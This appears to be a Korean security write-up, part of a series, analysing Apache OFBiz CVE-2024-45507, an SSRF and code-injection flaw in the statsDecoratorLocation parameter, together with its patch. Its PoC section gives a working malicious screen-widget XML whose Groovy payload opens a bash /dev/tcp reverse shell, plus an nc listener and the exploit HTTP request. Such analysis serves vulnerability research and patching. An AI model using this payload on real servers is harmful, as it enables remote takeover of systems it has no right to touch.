







# Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

# Introduction

이번에 분석할 `CVE-2024-45507` 취약점은 이전에 분석한 `CVE-2024-45195` 취약점과 유사하지만 취약점을 일으키는 엔드포인트가 다릅니다. 이는 취약점을 발생시키는 Groovy 스크립트가 다르다는 것입니다. 

`CVE-2024-45507` 취약점은 `StatsSinceStart.groovy` 스크립트를 이용하여 서버 측 요청 위조(SSRF)와 코드 인젝션 취약점을 발생시키는 문제를 가지고 있고, `CVE-2024-45195` 취약점은 `ViewDataFile.groovy` 스크립트를 이용한 강제 브라우징(Forced Browsing) 취약점입니다.

✅ `CVE-2024-45507` vs `CVE-2024-45195`

| CVE | Vulnerability | Target Groovy Script |
| --- | --- | --- |
| CVE-2204-45507 | SSRF, Code Injection | StatsSinceStart |
| CVE-2204-45195 | Forced Browsing | ViewDataFile |

여기서 SSRF 취약점과 Forced Browsing 취약점의 큰 차이는 다음과 같습니다. 

✅ SSRF(Server-Side Request Forgery) vs Forced Browsing

- SSRF(Server-Side Request Forgery) 취약점은 공격자가 서버를 통해 내부 네트워크나 다른 서비스에 요청을 보낼 수 있게 하는 취약점이며, 코드 인젝션은 악의적인 코드를 실행시킬 수 있게 합니다.
- Forced Browsing은 권한이 없는 사용자가 접근 제한된 파일이나 디렉토리에 직접 접근하는 취약점입니다.

즉, `CVE-2204-45507` 취약점의 경우 직접적으로 인증된 사용자로부터 URL을 입력받아 SSRF 취약점이 발생되지만, `CVE-2204-45195` 의 경우 비 인가된 사용자로부터 요청이 발생되므로 Forced Browsing 취약점으로 결정된 것입니다.

> 💿 Apache OFBiz 18.12.15 Download Link
>
> [Apache Download Mirrors - v18.12.15 Download Link](https://www.apache.org/dyn/closer.lua/ofbiz/apache-ofbiz-18.12.15.zip)

## Vulnerability Detail

| CVE | CVE-2024-45507 |
| --- | --- |
| Vulnerability | SSRF, Code Injection |
| CVSS(3.x) |  `CRITICAL` 9.8 |
| Product | Apache OFBiz |
| Version | <= 18.12.15 |
| Link | [`https://nvd.nist.gov/vuln/detail/CVE-2024-45507`](https://nvd.nist.gov/vuln/detail/CVE-2024-45507) |
| Description | Server-Side Request Forgery (SSRF), Improper Control of Generation of Code ('Code Injection') vulnerability in Apache OFBiz. This issue affects Apache OFBiz: before 18.12.16. Users are recommended to upgrade to version 18.12.16, which fixes the issue. |

# Analysis

`CVE-2024-45507` 취약점은 `StatsSinceStart` 뷰(스크린 위젯)가 렌더링될 때, 사용자로부터 입력받은 값을 추가적으로 렌더링하는 과정에서 발생합니다. 이에 대한 내용을 아래에서 자세히 살펴보겠습니다.

## StatsSinceStart

우선 `controller.xml` 파일에는 `StatsSinceStart` 뷰를 참조하는 컨트롤러(`<request-map uri="StatsSinceStart"`)가 정의되어 있습니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 내 일부

```xml
<request-map uri="StatsSinceStart">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="StatsSinceStart"/>
</request-map>

<!-- 생략 -->

<view-map name="StatsSinceStart" type="screen" page="component://webtools/widget/StatsScreens.xml#StatsSinceStart"/>
```

이때, `StatsSinceStart` 컨트롤러의 뷰(`<view-map name="StatsSinceStart">`)는 `/webtools/widget/StatsScreens.xml#StatsSinceStart` 를 참조하는 것을 확인할 수 있습니다.

🔍 /framework/webtools/widget/StatsScreens.xml 파일 내 일부

```xml
<screen name="StatsSinceStart">
    <section>
        <actions>
            <set field="titleProperty" value="WebtoolsStatsMainPageTitle"/>
            <set field="tabButtonItem" value="stats"/>
            <script location="component://webtools/groovyScripts/stats/StatsSinceStart.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="StatsDecorator" location="${parameters.statsDecoratorLocation}">
                <decorator-section name="body">
                    <section>
                        <widgets>
                            <container style="page-title">
                                <label text="${uiLabelMap[titleProperty]}"/>
                            </container>
                            <include-menu name="StatsSinceStart" location="component://webtools/widget/Menus.xml"/>
                            <label>${uiLabelMap.WebtoolsStatsCurrentTime} ${nowTimestamp}</label>
                            <screenlet title="${uiLabelMap.WebtoolsStatsRequestStats}" padded="false">
                                <include-grid name="ListRequestStats" location="component://webtools/widget/StatsForms.xml"/>
                            </screenlet>
                            <screenlet title="${uiLabelMap.WebtoolsStatsEventStats}" padded="false">
                                <include-grid name="ListEventStats" location="component://webtools/widget/StatsForms.xml"/>
                            </screenlet>
                            <screenlet title="${uiLabelMap.WebtoolsStatsViewStats}" padded="false">
                                <include-grid name="ListViewStats" location="component://webtools/widget/StatsForms.xml"/>
                            </screenlet>
                        </widgets>
                    </section>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

위 `StatsScreens.xml` 을 살펴보면 다음과 같이 사용자로부터 `statsDecoratorLocation` 를 입력받아 해당 값을 이용해 `StatsDecorator` 화면을 렌더링하는 것을 볼 수 있습니다.

```xml
<decorator-screen name="StatsDecorator" location="${parameters.statsDecoratorLocation}">
```

이 과정에서 외부에서 입력된 값을 적절한 검증 없이 사용하기 때문에 취약점이 발생하게 됩니다.

> 참고로 여러 위치에서 `<decorator-screen name="main-decorator" location="${parameters.mainDecoratorLocation}">` 형식으로 `mainDecoratorLocation` 파라미터를 이용한 화면 렌더링을 볼 수 있는데, 이는 `web.xml` 에서 미리 정의된 파라미터로, 그 값을 변경할 수 없습니다.
> 
> 
> 
> 

`StatsSinceStart` 뷰를 렌더링할 때, 같이 전달되는 `statsDecoratorLocation` 파라미터는 `ScreenFactory.java` 파일 내 `renderReferencedScreen` 메서드에서 처리합니다.

🔍 /framework/widget/src/main/java/org/apache/ofbiz/widget/model/ScreenFactory.java 일부

```java
public static void renderReferencedScreen(String name, String location, ModelScreenWidget parentWidget, Appendable writer, Map<String, Object> context, ScreenStringRenderer screenStringRenderer) throws GeneralException {
    // check to see if the name is a composite name separated by a #, if so split it up and get it by the full loc#name
    if (ScreenFactory.isCombinedName(name)) {
        String combinedName = name;
        location = ScreenFactory.getResourceNameFromCombined(combinedName);
        name = ScreenFactory.getScreenNameFromCombined(combinedName);
    }

    ModelScreen modelScreen = null;
    if (UtilValidate.isNotEmpty(location)) {
        try {
            modelScreen = ScreenFactory.getScreenFromLocation(location, name);
        } catch (IOException | SAXException | ParserConfigurationException e) {
            String errMsg = "Error rendering included screen named [" + name + "] at location [" + location + "]: " + e.toString();
            Debug.logError(e, errMsg, module);
            throw new RuntimeException(errMsg);
        }
    } else {
        modelScreen = parentWidget.getModelScreen().getModelScreenMap().get(name);
        if (modelScreen == null) {
            throw new IllegalArgumentException("Could not find screen with name [" + name + "] in the same file as the screen with name [" + parentWidget.getModelScreen().getName() + "]");
        }
    }
    modelScreen.renderScreenString(writer, context, screenStringRenderer);
}
```

결과적으로, `statsDecoratorLocation` 파라미터에 외부 서버에 저장 되어있는 XML 파일을 가리킨 다음, 해당 XML에 스크린 위젯(`<screen>`)을 정의하여 임의 명령어를 실행시킬 수 있습니다.

## 악성 스크린 위젯(XML) 작성

임의 명령어(`ls -al`)를 실행하는 스크린 위젯(`<screen>`)은 다음과 같습니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen" http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:throw new Exception('ls -al'.execute().text);}"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>

</screens>
```

위 코드를 살펴보면 다음과 같습니다.

✅ 악성 스크린 위젯(XML) 로직 설명

```xml
<set field="headerItem" value="${groovy:throw new Exception('ls -al'.execute().text);}"/>
```

- groovy 스크립트(`throw new Exception('ls -al'.execute().text);`)를 실행시킵니다.

```xml
<entity-one entity-name="FinAccount" value-field="finAccount"/>
```

- `FinAccount` 엔티티에서 정보를 가져와 가져온 데이터를 변수 `finAccount` 에 저장합니다.

위 내용을 토대로 다음 PoC를 통해 임의 명령어(`ls -al`)를 실행해보겠습니다.

# PoC

## 서버 악성 스크린 위젯 파일(XML) 준비

아래의 악성 스크린 위젯 파일(XML)을 서버에 저장합니다.

참고로, 임의 명령어를 실행할 경우 해당 값을 참조하여 출력하는 구문이 없으므로 다음과 같이 리버스 쉘을 이용합니다. 따라서, 아래 코드에서 `<리버스 쉘 주소>` 를 자신의 리버스 쉘 주소 정보로 변경합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">
    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:
                r = Runtime.getRuntime();
                p = r.exec(['/bin/bash','-c','exec 5&lt;&gt;/dev/tcp/<리버스 쉘 주소>/9999;cat &lt;&amp;5 | while read line; do $line 2&gt;&amp;5 &gt;&amp;5; done'] as String[]);
                p.waitFor();
                }"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>
</screens>
```



이후 해당 파일을 포트 80 으로 요청할 수 있도록 웹 서버를 실행합니다.

```xml
python -m http.server 80
```



## 리버스 쉘 준비

리버스 쉘은 `nc` 명령어를 이용합니다.

```xml
nc -lvp 9999
```



## StatsSinceStart 패킷 요청

다음의 요청 패킷을 Apache OFBiz 18.12.15 버전에 요청합니다. 이때, Cookie 의 값은 인증된 사용자의 `JSESSIONID` 값이여야 합니다.

```xml
POST /webtools/control/forgotPassword/StatsSinceStart HTTP/1.1
Host: localhost:8443
Cookie: JSESSIONID=<인증된 사용자의 JSESSIONID 값>;
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

statsDecoratorLocation=http://server.dottak.me:80/test.xml
```

위 요청이 정상적으로 수행된 경우 다음과 같이 리버스 쉘에서 Apache OFBiz 서버가 연결된 것을 확인할 수 있습니다.



이후에는 리버스 쉘(아래 탭)에 임의 명령어를 입력할 경우 Apache OFBiz 애플리케이션 서버를 대상으로 입력되는 것을 확인할 수 있습니다.



# Patch

`CVE-2024-45507` 취약점은 Apache OFBiz 버전 18.12.16 에서 패치 되었습니다.

해당 패치는 `statsDecoratorLocation` 파라미터로 전달된 스크린 위젯의 경로를 `UtilValidate` 클래스의 `urlInString` 메소드로 검사하여, Apache OFBiz 애플리케이션의 내부 리소스(`component://`)만을 참조하도록 제한하는 로직을 추가하였습니다.

> [https://github.com/apache/ofbiz-framework/commit/28f5f87ec9](https://github.com/apache/ofbiz-framework/commit/28f5f87ec9)
> 



🔍 /framework/base/src/main/java/org/apache/ofbiz/base/util/UtilValidate.java 파일 내 일부

```java
public static boolean urlInString(String s) {
    if (isEmpty(s) || s.contains("component://")) {
        return false;
    }
    return s.indexOf("://") != -1;
}
```

# Continue…

다음은 여섯 번째 CVE 취약점인 [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md)에 대해 알아보겠습니다.

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

---

# References

- https://issues.apache.org/jira/browse/OFBIZ-13132
- https://xz.aliyun.com/news/15006
- https://cwiki.apache.org/confluence/display/OFBIZ/Understanding+the+OFBiz+Widget+Toolkit